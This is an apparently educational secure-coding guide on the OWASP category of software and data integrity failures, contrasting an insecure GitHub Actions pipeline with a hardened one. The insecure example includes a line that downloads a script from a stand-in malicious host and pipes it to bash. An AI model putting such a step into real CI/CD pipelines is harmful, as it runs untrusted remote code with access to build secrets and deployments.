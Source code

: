 # A08 - Software and Data Integrity Failures

## 📋 Overview

**Software and Data Integrity Failures** relate to code and infrastructure that does not protect against integrity violations. This includes insecure CI/CD pipelines, auto-update functionality, and untrusted sources.

### 🎯 Learning Objectives

- Understand software supply chain security
- Implement secure CI/CD pipelines
- Verify software integrity
- Protect against malicious updates
- Secure dependency management

## 🚨 Common Integrity Failures

### 1. Insecure CI/CD Pipeline

**Vulnerable Example**:
```yaml
# ❌ Insecure CI/CD pipeline
name: Deploy
on: push
jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - run: curl -s http://malicious.com/script.sh | bash
      - run: npm install
      - run: npm run build
      - run: aws s3 sync ./build s3://mybucket
```

**Secure Example**:
```yaml
# ✅ Secure CI/CD pipeline
name: Deploy
on: 
  push:
    branches: [main]
jobs:
  deploy:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      id-token: write
    steps:
      - uses: actions/checkout@v3
        with:
          token: ${{ secrets.GITHUB_TOKEN }}
      
      - name: Verify checksums
        run: sha256sum -c checksums.txt
      
      - name: Install dependencies
        run: npm ci --only=production
      
      - name: Run security scan
        run: npm audit --audit-level high
      
```
